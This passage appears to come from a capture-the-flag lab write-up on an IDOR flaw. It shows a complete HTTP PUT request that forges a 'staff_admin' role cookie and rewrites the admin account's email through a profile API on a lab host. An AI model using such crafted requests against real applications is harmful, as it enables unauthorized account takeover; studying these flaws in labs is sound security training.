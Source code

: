 ```
----------------------------------------
```

We found that the `uid=10` equals to the admin user, now, we can proceed to change the email to:

```
flag@idor.htb
```

We can do it by modifying the request in the following way:

```http
PUT /profile/api.php/profile/10 HTTP/1.1

Host: 94.237.50.156:34303

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://94.237.50.156:34303/profile/index.php

Content-type: application/json

Content-Length: 198

Origin: http://94.237.50.156:34303

Connection: keep-alive

Cookie: role=staff_admin

Priority: u=0



{"uid":10,"uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"flag@idor.htb","about":"A Release is like a boat. 80% of the holes plugged is not good enough."}
```

If we check the response, we get this:


![Pasted image 20250217165646.png](../../../../IMAGES/Pasted%20image%2020250217165646.png)
